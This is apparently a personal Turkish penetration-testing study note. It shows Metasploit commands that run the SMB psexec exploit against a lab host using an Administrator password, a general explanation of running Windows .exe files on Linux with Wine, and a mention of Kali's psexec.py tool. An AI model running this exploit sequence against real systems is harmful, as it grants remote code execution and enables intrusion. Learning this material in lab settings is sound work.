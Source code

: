#### msf6> search smb psexec
![[Pasted image 20240201123424.png]]
## use exploit/windows/smb/psexec
set RHOSTS 192.168.1.7
set SMBUser Administrator
set SMBPass qwertyuiop
exploit
![[Pasted image 20240201123528.png]]

---

## Önemli Genel Bilgi Notu
### .exe uzantılı dosyaları Linux da çalıştırmak içi ne yapmalıyım. Örnek Psexec Windows dosyası bunu nasıl çalıştırabilirim ?
## WINE
#wine #wine-exe-linuxta-çalıştırma
Linux işletim sistemlerinde .exe uzantılı dosyalar genellikle doğrudan çalıştırılamaz, çünkü .exe dosyaları genellikle Windows işletim sistemine özgü yürütülebilir dosyalardır. Ancak, Wine adlı bir yazılım kullanarak Windows uygulamalarını Linux'ta çalıştırabilirsiniz.

Wine, Windows ortamını taklit eden bir ortam sağlar ve Linux üzerinde çeşitli Windows uygulamalarını çalıştırmanıza olanak tanır. Wine'ı kullanarak .exe dosyalarını çalıştırmak için şu adımları izleyebilirsiniz:

1. **Wine'ı Yükleyin:** Linux dağıtımınıza bağlı olarak, Wine'ı paket yöneticisi aracılığıyla yükleyebilirsiniz. Örneğin, Ubuntu ve türevleri için terminalde şu komutu kullanabilirsiniz:
    
```
    sudo apt-get install wine
```
    
    
2.  Wine'ı yükledikten sonra, .exe dosyanızın bulunduğu dizine gidin ve terminalde şu komutu kullanarak dosyayı çalıştırın:    
    `wine dosyaadi.exe`
    
    Burada "dosyaadi.exe" kısmını kendi .exe dosyanızın adıyla değiştirmelisiniz.
    

---

## Nifty - HAVALI - TOOL
![[Pasted image 20240201124344.png]]
### psexec.py   ---->> Kali de var gözünü seveyim Kali Herşey var
![[Pasted image 20240201124442.png]]
